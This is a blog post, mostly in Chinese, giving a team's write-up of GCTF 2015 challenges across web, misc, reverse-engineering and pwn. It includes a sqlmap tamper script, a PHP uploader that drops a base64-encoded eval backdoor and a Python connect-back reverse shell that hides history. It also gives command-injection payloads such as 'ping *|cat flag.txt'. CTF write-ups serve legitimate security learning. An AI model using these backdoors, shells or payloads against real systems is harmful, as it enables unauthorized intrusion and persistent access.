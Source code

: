 ```yaml
---
title: gctf2015-writeup
pubDatetime: 2015-10-03 00:45:04 +08:00
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_gctf2015_writeup
---
```


## gctf writeup, by cnss

### WEB200

    先吐槽，第一天做的时候web100表里面居然flag字段为空，就以为是个坑，到处翻表，结果是被人搅了而已，那么卡的服务器居然出的是时间盲注真是醉了。
    当url中出现大写的PG_SLEEP的时候就会返回can’t use sleep，测试小写的时候发现可以成功sleep并不拦截。因此写个tamper用sqlmap跑，tamper代码如下：

```python
def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload.replace("PG_SLEEP","pg_sleep");

return retVal
```

    sqlmap的关键参数是 --tamper xxx.py --technique T --dbms postgresql –D public –T web100 --dump  在flag字段注入出flag。

### WEB300

    Hint说会被立刻删除，因此写个php写上上级目录，放进zip中，用burp一直跑对应用户名的上传目录即可。php代码如下：

```php
< ?php
$dir = dirname(__FILE__);
$basedir = $dir."/../../";
system("chmod -Rf 777 ".$basedir); //由于目录权限被搅，还要把权限设置回来
echo $basedir;
echo file_put_contents("../../luoisyourfather.php",base64_decode("DQo8P3BocCANCmlmKG1kNSgkX0dFVFsneCddKSA9PSAiZTNiN2QzZjgyM2VhODJkMmY2M2FkM2JiZmQwN2I0ZmMiKXsNCiAgICBldmFsKCRfUE9TVFsnbHVvJ10pOyANCn0NCj8+"));
?>
```

    本人上传的用户名为testluo，文件名为3.php因此burp一直get /uploads/testluo/3.php，出现200状态码即可
    成功拿到shell后在网站根目录的fl4g文件夹下发现flag。(然后就可以写脚本搅屎了)

### WEB500

    两种办法，可以用portmap把22转发出来用ssh，另一个用python写一个tty的shell反弹出来。我选择python的ttyshell，因为ssh猜密码很麻烦。Python代码如下：

```python
#!/usr/bin/python
import sys
import os
import socket
import pty

shell = "/bin/sh"

def usage(programname):
print "python connect-back door"
print "Usage: %s <conn_back_ip> <port>" % programname

def main():
if len(sys.argv) !=3:
usage(sys.argv[0])
sys.exit(1)

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

try:
s.connect((socket.gethostbyname(sys.argv[1]),int(sys.argv[2])))
print "[+]Connect OK."
except:
print "[-]Cant connect"
sys.exit(2)

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
global shell
os.unsetenv("HISTFILE")
os.unsetenv("HISTFILESIZE")
pty.spawn(shell)
s.close()

if __name__ == "__main__":
main()
```

    弹出来shell后直接su redrain，密码为弱口令asd123!@#，在/home/redrain下发现flag

### Misc 50

    网页源码里 aaencode的代码,运行,出来一个gctf{}，以为少了东西,找了半天提交了一下居然对了..

### Misc100

    递归查{} 注意从源码复制和嵌套,爆破也可以，脚本跑出来一直是267，不对( ⊙ o ⊙ )啊！
    默默+1 -1 发现266对了

```python
#-*-coding:utf-8-*-
def Count():
    s = '''the string without \\'''
    cnt = 0
    left = 0
    for i in s:
        if i == '{':
            left += 1
        if i == '}':
            if (left > 0):
                left -= 1
                cnt += 1
    print cnt

Count()
```

### Misc200/600

    http://insight-labs.org/?p=371 分离出来狗
    LSB在CSDN上有个工具,人家毕业设计 直接跑一下OK出来flag

### Re 1:

    simply Reverse.
    1.py:

```python
str1 = '62C5J110119120L'
	str2 = ''
	for i in range(len(str1)):
		str2 += chr(ord(str1[i]) + 49 )

	print str2
```

### Re2:

    a interesting Reverse, use SEH to control execute process.
    breakpoint in SEH process function(0x401000) and then trigger off a exception.

    there is a simply labyrinth.

```bash
00409036  2A 2A 2A 20 20 2A 2A 20 20 2A 2A 20 2A 2A 2A 2A  ***  **  ** ****
00409046  20 2A 2A 20 2A 2A 2A 2A 2A 2A 2A 20 2A 23 20 20   ** ******* *#
00409056  20 2A 2A 20 2A 2A 2A 2A 20 2A 2A 20 20 2A 2A 20   ** **** **  **
00409066  20 2A 2A 2A 20 20 20 20 2A 2A                     ***    **
```

    everytime I can +8,-8,+1,-1
    from 0x00409046 to 0x00409053
    cannot on 0x2A,length 25.

### Re3:

    use a table to control execution.
    breakpoint on every case to switch.
    look at the parameter of every crucial function(strcmp, strlen and so on)
    input len : 13, every -0x80, compare with a string.

### Pwn1:

    no NX, a global buffer we can enter into.
    a stack overflow, no cookie.

    arrange shellcode in global buffer, use stack overflow to return to buffer,getshell.

### Pwn2:

    no NX, a global buffer we can enter into.
    a fsb, we can leak address.
    a uaf, we can jmp to anywhere.
    but we cannot write shellcode in global buffer,beacuse we use uaf, the buffer will be corrupted.

    so, leak stack address, and then use uaf return to stack buffer.

### Pwn3:

    NX, cannot execute shellcode in stack and heap.
    safe stack, cannot overflow the stack
    but,there is a fsb and a command injection.

    bypass '>', ';', '<'
    use pipe.
    but cannot getshell.
    payload "ping *|ls"
    look at the file of flag's name,flag.txt
    use payload again "ping *|cat flag.txt"

</port></conn_back_ip>
